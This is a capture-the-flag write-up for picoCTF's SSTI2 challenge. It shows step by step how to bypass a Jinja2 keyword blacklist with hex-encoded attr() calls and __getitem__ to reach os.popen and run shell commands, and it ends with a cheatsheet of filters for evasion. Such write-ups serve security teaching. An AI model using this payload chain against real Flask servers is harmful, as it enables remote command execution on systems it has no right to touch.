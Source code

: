 ## 📝 SSTI2 Challenge Walkthrough

In this challenge, we’re dealing with a **Server-Side Template Injection (SSTI)** vulnerability—but with heavy input filtering.

---

### Step 1: Confirm SSTI

We start by testing whether SSTI is possible:

```jinja2
{{ 7*7 }}
```

It returns 49, so SSTI is enabled.

---

### Step 2: Bypassing Keyword Blacklisting

Trying a textbook payload:

```jinja2
{{ "".__class__.__base__.__subclasses__() }}
```

...results in an error: “stop trying to break me”.

This means keywords like `class`, `base`, `subclasses`, and even `""` (an empty string) are blacklisted.

I tried using a custom string like `"idk"` instead of `""`:

```jinja2
{{ idk.__class__ }}
```

...but even that failed due to the sanitization.

Attempts like:
- Unicode/hex encoding `__class__`
- URL-encoding newline characters
- POSTing a newline

...all failed due to filters and sandbox constraints.

---

### Step 3: Exploring Filters & `attr`

I noticed that:

```jinja2
{{ idk | }}
```

...does not trigger an error, meaning filters are allowed.

So what are filters in Flask Jinja2?

Filters are built-in functions in Jinja2 that let you modify or format data before it's rendered in the template. They're used inside double curly braces like this:

```jinja2
{{ variable | filter_name }}
```

You can even pass arguments to them:

```jinja2
{{ variable | filter_name(arg1, arg2) }}
```

They’re super helpful for cleaning up, transforming, or accessing data without writing any Python code in your backend. For example:
- `{{ "HELLO" | lower }}` becomes `"hello"`
- `{{ mylist | length }}` gives the number of items
- `{{ user | default("Guest") }}` shows `"Guest"` if `user` is undefined

In this challenge, filters aren’t just for formatting — they’re a way to sneak around input filters. That’s where `attr()` came in clutch: it let us access blocked attributes like `__class__` using their string names (which we hex-encoded to avoid detection).

So I dug into filter functions and found the holy grail: `attr`.

> `attr` allows you to dynamically access an attribute of an object using a string.

But directly accessing blacklisted attributes like `__class__` still failed:

```jinja2
{{ idk | attr("__class__") }}
```

So I hex-encoded it:

```jinja2
{{ idk | attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f') }}
```

Success! We got the class.

I continued by hex-encoding the rest of the chain:

```jinja2
{{ idk
  | attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f') # __class__ hex encoded
  | attr('\x5f\x5f\x62\x61\x73\x65\x5f\x5f') # __base__ hex encoded
  | attr('\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f')() # _subclasses__ hex encoded
}}
```

---

### Step 4: Finding the `warnings.catch_warnings` Class

In the output of `__subclasses__()`, I looked for `warnings.catch_warnings` (a known trick, since its `__init__` uses `sys.modules` which gives us access to the os module --> open a shell).

You can look for its existence using a chatgpt or deepseek or another method that i strongly recommend since ai never gave me the right index 😅, is to use python and here is what i always use:

```python
# something.txt should contain all the subclasses
with open('something.txt') as p:
    check = p.read()
for index,value in enumerate(check.split(',')):
    if "<class 'warnings.catch_warnings'>" in value:
        print(index)
```

It existed! At index 221.

But this didn't work:

```jinja2
(...subclasses__())[221]
```

Why? Because:
- `[]` is blacklisted
- Calling functions (`()`) often triggers errors in sandboxed environments

---

### 💡 Step 5: Bypassing with `__getitem__`

Instead of using `[]`, I used:

```jinja2
| attr('__getitem__')(221)
```

That works because:
> `__getitem__` lets us simulate `obj[221]` without using square brackets.
in Jinja2, the attr filter (also called attribute) is used to dynamically access an attribute of an object by name (as a string). It’s useful when the attribute name is stored in a variable or constructed dynamically.


Here’s the full, chained payload:

```jinja2
{{ idk
  | attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f') # __class__ hex encoded
  | attr('\x5f\x5f\x62\x61\x73\x65\x5f\x5f') # __base__ hex encoded
  | attr('\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f')() # _subclasses__ hex encoded, we can't index/call the warnings subclass so we use getitem
  | attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')(221) # __getitem__ hex encoded and we get the 221th item which is the warning subclass
  | attr('\x5f\x5f\x69\x6e\x69\x74\x5f\x5f') # __init__ hex encoded to call the init method
  | attr('\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f') # __globals__ to access the global variable, we can't access the sys variable directly here so we use getitem again
  | attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('sys') #  __getitem__ hex encoded and we get the sys variable
  | attr('modules') # we access its modules (which contains os), we can't access the os module directly because we're calling a function and calling a function triggers an error
  | attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('os') # so we use getitem again!, __getitem__ hex encoded
  | attr('popen')('cat flag') # accessing the popen function to opne a shell and execute "cat flag" (i executed ls first and then when i saw the flag.txt i cat'ed it)
  | attr('read')() # and here so we can see the output of the popen
}}
```

---

### Step 6: Get the Flag

Paste the full payload into the form input, and...

BOOM — you get the flag:

```bash
picoCTF{... redacted ...}
```

---

## 🧰 Useful Jinja2 Filters for SSTI & Exploitation

Here’s a mini cheatsheet of filters that are particularly useful in SSTI/CTF contexts:

| Filter         | Purpose                                         |
|----------------|-------------------------------------------------|
| `attr()`       | Dynamically access attributes like `__class__`  |
| `e` / `escape` | Escape HTML (sometimes bypasses filters)        |
| `safe`         | Mark string as safe (no escaping)               |
| `default()`    | Provide fallback values to avoid breaking logic |
| `length`       | Get length of iterable (can test logic flow)    |
| `join`         | Concatenate strings from a list (may help with payload shaping) |
| `replace`      | Modify strings mid-template (bypass filters)    |

---

> Just look at that payload... it’s a masterpiece.

> If you’ve reached this point and understood the entire chain — 🫡. 


